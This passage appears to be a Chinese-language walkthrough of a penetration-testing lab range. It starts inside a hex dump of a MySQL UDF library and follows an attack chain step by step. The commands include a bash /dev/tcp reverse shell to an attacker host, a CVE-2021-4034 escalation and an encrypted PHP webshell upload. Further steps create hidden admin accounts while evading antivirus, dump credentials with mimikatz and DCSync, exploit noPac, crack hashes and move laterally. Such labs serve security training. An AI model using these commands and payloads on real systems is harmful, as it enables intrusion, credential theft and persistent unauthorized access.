0000000000002F000000000000001E01000020000000000000000000000000000000000000002D01000020000000000000000000000000000000000000004101000012000C00481100000000000000000000000000004701000012000B00A90F0000000000000A000000000000005701000012000000000000000000000000000000000000006B01000012000000000000000000000000000000000000007F01000012000B00A20E00000000000067000000000000008D01000012000B00B30F0000000000005501000000000000960100001200000000000000000000000000000000000000A901000012000B00950B0000000000000A00000000000000C601000012000B00B50C000000000000F100000000000000D30100001200000000000000000000000000000000000000E50100001200000000000000000000000000000000000000F901000012000000000000000000000000000000000000000D02000012000B004C0B00000000000049000000000000002802000022000000000000000000000000000000000000004402000012000B00A60D0000000000002B000000000000005302000012000B00EB0B0000000000005D000000000000006002000012000B00480C0000000000000A000000000000006F02000012000000000000000000000000000000000000008302000012000B00420F0000000000006700000000000000910200001200000000000000000000000000000000000000A50200001200000000000000000000000000000000000000B902000012000B00520C0000000000006300000000000000C10200001000F1FF10172000000000000000000000000000CD02000012000B009F0B0000000000004C00000000000000E30200001000F1FF20172000000000000000000000000000E80200001200000000000000000000000000000000000000FD02000012000B00090F0000000000000A000000000000000D0300001200000000000000000000000000000000000000220300001000F1FF101720000000000000000000000000002903000012000000000000000000000000000000000000003C03000012000900880900000000000000000000000000000063616C6C5F676D6F6E5F73746172740063727473747566662E63005F5F43544F525F4C4953545F5F005F5F44544F525F4C4953545F5F005F5F4A43525F4C4953545F5F005F5F646F5F676C6F62616C5F64746F72735F61757800636F6D706C657465642E363335320064746F725F6964782E36333534006672616D655F64756D6D79005F5F43544F525F454E445F5F005F5F4652414D455F454E445F5F005F5F4A43525F454E445F5F005F5F646F5F676C6F62616C5F63746F72735F617578006C69625F6D7973716C7564665F7379732E63005F474C4F42414C5F4F46465345545F5441424C455F005F5F64736F5F68616E646C65005F5F44544F525F454E445F5F005F44594E414D4943007379735F736574007379735F65786563005F5F676D6F6E5F73746172745F5F005F4A765F5265676973746572436C6173736573005F66696E69007379735F6576616C5F6465696E6974006D616C6C6F634040474C4942435F322E322E350073797374656D4040474C4942435F322E322E35007379735F657865635F696E6974007379735F6576616C0066676574734040474C4942435F322E322E35006C69625F6D7973716C7564665F7379735F696E666F5F6465696E6974007379735F7365745F696E697400667265654040474C4942435F322E322E35007374726C656E4040474C4942435F322E322E350070636C6F73654040474C4942435F322E322E35006C69625F6D7973716C7564665F7379735F696E666F5F696E6974005F5F6378615F66696E616C697A654040474C4942435F322E322E35007379735F7365745F6465696E6974007379735F6765745F696E6974007379735F6765745F6465696E6974006D656D6370794040474C4942435F322E322E35007379735F6576616C5F696E697400736574656E764040474C4942435F322E322E3500676574656E764040474C4942435F322E322E35007379735F676574005F5F6273735F7374617274006C69625F6D7973716C7564665F7379735F696E666F005F656E64007374726E6370794040474C4942435F322E322E35007379735F657865635F6465696E6974007265616C6C6F634040474C4942435F322E322E35005F656461746100706F70656E4040474C4942435F322E322E35005F696E697400')into dumpfile '/usr/lib64/mysql/plugin/udf.so';
```


写入成功后创建函数：

```
create function sys_eval returns string soname "udf.so";
```


查看当前权限：

```
select sys_eval('whoami');
```


console进入`Kali攻击机`，在桌面右键打开终端，执行命令启动监听：

```
nc -lvvp 12345
```


`Win10攻击机`中利用`sys_eval`函数反弹shell：

```
select sys_eval('bash -i >& /dev/tcp/10.10.10.100/12345 0>&1');
```


`Kali攻击机`中获取到shell：


查看权限：


Kali攻击机中进入桌面的`Tools`目录，在该目录下打开终端，执行命令启动http服务：

```
python3 -m http.server
```


获取的shell中执行命令：

```
wget http://10.10.10.100:8000/CVE-2021-4034-main.zip
```


shell中执行命令进行解压：

```
unzip CVE-2021-4034-main.zip
```



将文件进行编译：

```
ls

cd CVE-2021-4034-main

make
```


编译完成后运行并查看权限：

```
./cve-2021-4034

whoami
```


查找并查看flag：

```
find / -name flag

cat /root/flag
```


#### 阶段二：服务网络渗透测试

##### 任务4：内网存活主机探测（T1595 - 主动扫描）

```
本场景的第4任务是发现目标主机存在其他网络的路由时进行存活主机探测。

端口扫描是指某些别有用心的人发送一组端口扫描消息，试图以此侵入某台计算机，并了解其提供的计算机网络服务类型（这些网络服务均与端口号相关）。端口扫描是计算机解密高手喜欢的一种方式。攻击者可以通过它了解到从哪里可探寻到攻击弱点。实质上，端口扫描包括向每个端口发送消息，一次只发送一个消息。接收到的回应类型表示是否在使用该端口并且可由此探寻弱点。

该任务可以通过以下操作完成。
```

回到`Win10攻击机`，在蚁剑终端查看路由信息：


发现内网网段：


执行命令探测存活主机：

```
for /L %I in (1,1,254) DO @ping -w 1 -n 1 192.168.200.%I | findstr "TTL"  >> 1.txt
```


发现存活主机（当结果中显示网关信息时表示探测结束）：


进入扫描器目录：


进入s扫描器目录：


将s扫描器通过拖拽的方式上传至蚁剑工具：


蚁剑中s扫描器所在目录下右键打开终端，进入终端执行命令进行探测：

```
s.exe tcp 192.168.200.10 1-10000 >> 10.txt

s.exe tcp 192.168.200.20 1-10000 >> 20.txt

s.exe tcp 192.168.200.30 1-10000 >> 30.txt
```

请不要同时执行3个扫描任务，先通过日志信息判断扫描是否结束，结束后再执行下一个；扫描日志和`s.exe`在相同的目录下，右键查看：



文件最下方显示扫描用时和结果，可判断扫描是否结束：


快捷键`Ctrl+F`打开搜索栏，搜索关键字`Open`，可查看开放的端口信息：


##### 任务5：代理隧道搭建（T1090 - 连接代理）

```
本场景的第5任务是利用代理工具搭建内网隧道。

内网穿透，也即NAT穿透，进行NAT穿透是为了使具有某一个特定源IP地址和源端口号的数据包不被NAT设备屏蔽而正确路由到内网主机。下面就相互通信的主机在网络中与NAT设备的相对位置介绍内网穿透方法。

该任务可以通过以下操作完成。
```

上传代理工具进行内网穿透，工具路径如下：


在该目录下，地址栏中输入cmd并回答打开命令行：


命令行中输入命令启动代理服务端：

```
frps.exe -c frps.ini
```


点击`Allow access`：


将该目录下的`frpc.ini`文件进行修改，内容如下：

```
[common]
server_addr = 10.10.10.10
server_port = 7000

[ssh]
type = tcp
remote_port = 9998
plugin = socks5
```


将`frpc.exe`和`frpc.ini`文件通过拖拽的方式上传值蚁剑`C:/PHPnow-1.5.6/htdocs/effect/source/bg/`目录下：


蚁剑`C:/PHPnow-1.5.6/htdocs/effect/source/bg/`目录中右键打开终端，执行命令启动代理客户端：

```
frpc.exe -c frpc.ini
```


隧道建立成功：


##### 任务6：OA主机权限获取（T1203 - 利用客户端漏洞获取执行权限）

```
本场景的第6任务是通过扫描发现内网OA主机，利用漏洞获取权限。

办公自动化（Office Automation，简称OA）是将现代化办公和计算机技术结合起来的一种新型的办公方式。办公自动化没有统一的定义，凡是在传统的办公室中采用各种新技术、新机器、新设备从事办公业务，都属于办公自动化的领域。通过实现办公自动化，或者说实现数字化办公，可以优化现有的管理组织结构，调整管理体制，在提高效率的基础上，增加协同办公能力，强化决策的一致性。

该任务可以通过以下操作完成。
```

Burpsuite工具设置代理：


代理地址如下：


关闭拦截：


火狐浏览器打开新的标签页，访问`http://192.168.200.30:8082`：


Burpsuite开启拦截，点击刷新，捕获到向目标主机发送get请求的数据包：


上传payload，将捕获的数据包进行覆盖：

```
POST /general/index/UploadFile.php?m=uploadPicture&uploadType=eoffice_logo&userId= HTTP/1.1
Host: 192.168.200.30:8082
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close
Accept-Language: zh-CN,zh-TW;q=0.9,zh;q=0.8,en-US;q=0.7,en;q=0.6
Cookie: LOGIN_LANG=cn; PHPSESSID=0acfd0a2a7858aa1b4110eca1404d348
Content-Length: 193
Content-Type: multipart/form-data; boundary=e64bdf16c554bbc109cecef6451c26a4

--e64bdf16c554bbc109cecef6451c26a4
Content-Disposition: form-data; name="Filedata"; filename= test.jpg; filename="test.php"
Content-Type: image/jpeg

<?php
@session_start();
@set_time_limit(0);
@error_reporting(0);
function encode($D,$K){
    for($i=0;$i<strlen($D);$i++) {
        $c = $K[$i+1&15];
        $D[$i] = $D[$i]^$c;
    }
    return $D;
}
$pass='pass';
$payloadName='payload';
$key='3c6e0b8a9c15224a';
if (isset($_POST[$pass])){
    $data=encode(base64_decode($_POST[$pass]),$key);
    if (isset($_SESSION[$payloadName])){
        $payload=encode($_SESSION[$payloadName],$key);
        if (strpos($payload,"getBasicsInfo")===false){
            $payload=encode($payload,$key);
        }
		eval($payload);
        echo substr(md5($pass.$key),0,16);
        echo base64_encode(encode(@run($data),$key));
        echo substr(md5($pass.$key),16);
    }else{
        if (strpos($data,"getBasicsInfo")!==false){
            $_SESSION[$payloadName]=encode($data,$key);
        }
    }
}


--e64bdf16c554bbc109cecef6451c26a4--
```



发送至`Repeater`：


Repeater中点击Go，Response中出现响应，成功上传webshell：


启动哥斯拉，路径如下，双击`godzilla.jar`：


新增shell：



shell信息如下：

```
shell url:http://192.168.200.30:8082/images/logo/logo-eoffice.php

shell pwd:pass
```


添加成功后右键url点击`Enter`，执行命令查看权限：


发现flag：


##### 任务7：OA主机凭证窃取（T1078 - 有效凭证、T1202 - 间接命令执行、T1136 - 创建账户、T1105 - 远程文件拷贝）

```
本场景的第7任务是取得权限后窃取主机密码信息。

入侵网站的提权过程中，net命令是十分重要的，但有时会遇到net命令不能执行或者net.exe被删除的情况。对用前者，可以尝试使用net1命令来代替net命令，它更加强大，功能更完善。对于后者，可以自己上传net或net1组件。

该任务可以通过以下操作完成。
```

创建隐藏用户，利用`net1.exe`可以绕过火绒：

```
cd C:\Windows\System32

copy net1.exe net2.txt

net2.txt user hacker$ admin /add  //添加隐藏用户

net2.txt localgroup administrators hacker$ /add   //加入到管理员组中
```


启动全局代理软件：


双击底部任务栏的软件图标：


打开代理服务器：


新增代理：


代理信息如下：


点击`OK`>>`Yes`>>`OK`>>`OK`，完成代理服务器配置。

启动远程桌面：


运程主机信息：

```
远程地址：192.168.200.30

登录信息：hacker$/admin
```

远程登录成功后先退出火绒软件：


回到`Win10攻击机`，进入`mimikatz.exe`文件所在目录：


将`mimikatz.exe`文件复制粘贴至`192.168.200.30`主机桌面：


以管理员身份运行`mimikatz.exe`文件：


进行密码抓取

```
privilege::debug

sekurlsa::logonpasswords full
```


获取密码：

```
pingguo13pro
```


##### 任务8：密码复用登录Wiki（T1059 - 命令行界面、T1078 - 有效凭证、T1090 - 连接代理、T1210 - 利用远程服务）

```
本场景的第8任务是尝试密码复用登录wiki主机。

FinalShell是一体化的的服务器，网络管理软件，不仅是ssh客户端，还是功能强大的开发，运维工具，充分满足开发和运维需求。

该任务可以通过以下操作完成。
```

回到`Win10攻击机`，启动`FinalShell`：


尝试使用`root/pingguo13pro`登录开放22端口的主机`192.168.200.20`：




连接成功：


查看路由信息：


查看历史记录：


发现存在ping指令，存在内网地址，进行探测：


主机信息收集，发现flag：


建立内网代理：

进入`frp_Linux`目录，修改`frpc.ini`文件：


修改为如下内容：


将`C:\Users\Administrator\Desktop\tool\frp\frp_Linux`目录下的`frpc`文件和`frpc.ini`文件上传至`FinalShell`的`root`目录下：


进入`C:\Users\Administrator\Desktop\tool\frp\frp_Windows`目录，将`frps.exe`和`frps.ini`文件上传至蚁剑的`C:/PHPnow-1.5.6/htdocs/effect/source/bg/`目录下：


蚁剑的`C:/PHPnow-1.5.6/htdocs/effect/source/bg/`目录中右键打开终端，执行命令启动代理服务端：

```
frps.exe -c frps.ini
```


`FinalShell`中进入`root`目录，给`frpc`文件赋权：


执行命令启动代理客户端：

```
./frpc -c ./frpc.ini
```


出现`success`表示代理隧道建立成功，全局代理软件`proxifier`中设置代理服务器：


添加代理服务器：


代理服务器信息如下：


设置代理规则：


规则如下：


检查代理是否正常：远程`172.16.100.50`主机是否能够出现账户信息输入框。

#### 阶段三：办公网络渗透测试

##### 任务9：办公主机漏洞利用（T1210 - 利用远程服务、T1203 - 利用客户端漏洞获取执行权限、T1136 - 创建账户）

```
本场景的第9任务是尝试利用办公主机的漏洞创建持久可控账户。

向日葵本是一款远程控制工具，可远程控制电脑手机等。漏洞成因主要是低版本下存在未授权访问漏洞，当你打开先日葵(旧版)后，未授权的端口自然也被打开，然而攻击者可以通过此端口不需要密码获取session，借助session远程执行任意命令，进而获取服务器权限。

该任务可以通过以下操作完成。
```

`Win10攻击机`中进入`C:\Users\Administrator\Desktop\tool\xrk`目录，在该目录下启动命令行，对`172.16.100.50`主机进行扫描：

```
xrkrce.exe -h 172.16.100.50 -t scan
```

扫描时间大约5分钟，若长时间无回显可按回车检查扫描是否结束，也可通过`proxifier`软件的`Connections`窗口判断扫描的运行情况，当窗口的端口扫描行为停止时表示扫描即将结束。


发现存在漏洞，执行命令进行利用（若无显示请再试一次）：

```
xrkrce.exe -h 172.16.100.50 -t rce -p XXXXX -c "whoami"

##XXXXX表示扫描出的端口
```


成功获得system权限，添加隐藏账户：

```
xrkrce.exe -h 172.16.100.50 -t rce -p XXXXX -c "net user hacker$ admin /add" 

xrkrce.exe -h 172.16.100.50 -t rce -p XXXXX -c "net localgroup administrators hacker$ /add"  

##XXXXX表示扫描出的端口
```


账户创建后进行远程，远程主机信息如下：

```
远程地址：172.16.100.50

登录信息：hacker$/admin
```

提示存在用户已登录，点击`是`后等待30秒登录成功，在`C:\Users\jack\Desktop`目录下发现flag：


##### 任务10：账户密码窃取（T1078 - 有效凭证、T1059 - 命令行界面）

```
本场景的第10任务是窃取办公主机的密码凭证。

Mimikatz是一个工具，用来学习 C语言和做一些关于 Windows安全的实验。它可以从内存中提取明文密码、哈希值、PIN码和Kerberos票据。Mimikatz还可以执行传递哈希值、传递票据或建立金票。

该任务可以通过以下操作完成。
```

上传mimikatz工具抓取密码，以管理员权限运行：

```
privilege::debug

sekurlsa::logonpasswords full
```


获得域用户`jack`的密码信息：

```
jack@777@..
```

#### 阶段四：核心网络渗透测试

##### 任务11：域渗透获取凭证（T1059 - 命令行界面、T1558 - 窃取或伪造Kerberos票据、T1105 - 远程文件拷贝）

```
本场景的第11任务是利用工具窃取域控账户的密码hash。

哈希密码（Password Hash）指的是对口令进行一次性的加密处理而形成的杂乱字符串。这个加密的过程被认为是不可逆的，也就是说，人们认为从哈希串中是不可能还原出原口令的。

该任务可以通过以下操作完成。
```

断开`172.16.100.50`主机的远程桌面：


使用域用户进行远程：

```
远程地址：172.16.100.50

登录用户：ATTACK\jack

登录密码：jack@777@..
```

登录成功后将`Win10攻击机`中`C:\Users\Administrator\Desktop\tool`目录下的`noPac.exe`文件进行上传：


将mimikatz工具进行上传：


以管理员身份启动命令行：


执行命令检查是否存在漏洞：

```
cd C:\Users\jack\Desktop

noPac.exe scan -domain attack.com -user jack -pass jack@777@..
```


漏洞利用：

```
noPac.exe -domain attack.com -user jack -pass jack@777@.. /dc DC.attack.com /mAccount demo123 /mPassword Password123! /service ldap /ptt
```


查看导入的票据：

```
klist
```


获取域内所有hash：

```
mimikatz.exe "log" "privilege::debug" "lsadump::dcsync /domain:attack.com /all /csv" "exit" 
```


拿到`Administrator`的hash值：

```
4f17e7b727d8d0b0175b60778a8e3aa0
```


##### 任务12：破解用户hash（T1110 - 暴力破解）

```
本场景的第12任务是使用工具获取域控账户的明文密码。

Hashcat是一个密码恢复工具。直到2015年，它都有一个专有的代码库，但随后作为开源软件发布。版本适用于Linux、OS X和Windows。哈希卡支持的哈希算法的示例包括LM哈希、MD4、MD5、SHA系列和Unix Crypt格式，以及MySQL和Cisco PIX中使用的算法。

该任务可以通过以下操作完成。
```

ssh登录`Kali攻击机`，执行命令获取明文密码：

```
hashcat -m 1000 -a 0 -o winpass.txt --remove 4f17e7b727d8d0b0175b60778a8e3aa0 /usr/share/wordlists/rockyou.txt 
```


查看`winpass.txt`：

```
cat winpass.txt
```


密码为：`admin@2022***`。

##### 任务13：远程登录域控主机（T1210 - 利用远程服务、T1059 - 命令行界面）

```
本场景的第13任务是远程登录域控主机获取flag。

当某台计算机开启了远程桌面连接功能后我们就可以在网络的另一端控制这台计算机了，通过远程桌面功能我们可以实时的操作这台计算机，在上面安装软件，运行程序，所有的一切都好像是直接在该计算机上操作一样。这就是远程桌面的最大功能，通过该功能网络管理员可以在家中安全的控制单位的服务器，而且由于该功能是系统内置的所以比其他第三方远程控制工具使用更方便更灵活。

该任务可以通过以下操作完成。
```

回到`Win10攻击机`的`172.16.100.50`主机的远程桌面中，输入命令收集域控信息：

```
net time
```



发现域控地址：


启动远程桌面：



远程域控，远程信息如下：

```
远程地址：10.10.100.100

登录账户：ATTACK\Administrator

登录密码：admin@2022***
```

登录成功后发现flag：


断开域控的远程连接，先缩小再点击右上角关闭，避免关错。

##### 任务14：横向移动获取flag（T1570 - 工具横向转移、T1059 - 命令行界面）

```
本场景的第14任务是利用工具横向移动至域内主机获取flag。

横向移动攻击充分体现了“网络安全链的强度完全取决于最薄弱的那一环”这一观点。高级持续性威胁（APT）是横向移动带来的最常见网络攻击类型。如果网络有足够多未加保护的漏洞，只要有足够的时间，黑客最终就可以访问域控制器本身，进而可以攻击企业的整套数字基础设施，包括根账户。

该任务可以通过以下操作完成。
```

`Win10攻击机`中将`C:\Users\Administrator\Desktop\tool`目录下的`WMIHACKER_0.6.vbs`文件上传至远程主机`172.16.100.50`的桌面中：


查看域内用户：


查看域用户地址：


横向移动到`172.16.100.90`主机（若长时间无结果请重试）：

```
cscript WMIHACKER_0.6.vbs /cmd 172.16.100.90 ATTACK\administrator "admin@2022***" "whoami" 1
```


查看用户信息（若长时间无结果请重试）：

```
cscript WMIHACKER_0.6.vbs /cmd 172.16.100.90 ATTACK\administrator "admin@2022***" "dir C:\Users\" 1
```


查看flag（若长时间无结果请重试）：

```
cscript WMIHACKER_0.6.vbs /cmd 172.16.100.90 ATTACK\administrator "admin@2022***" "type C:\Users\administrator.ATTACK\Desktop\flag.txt" 1
```

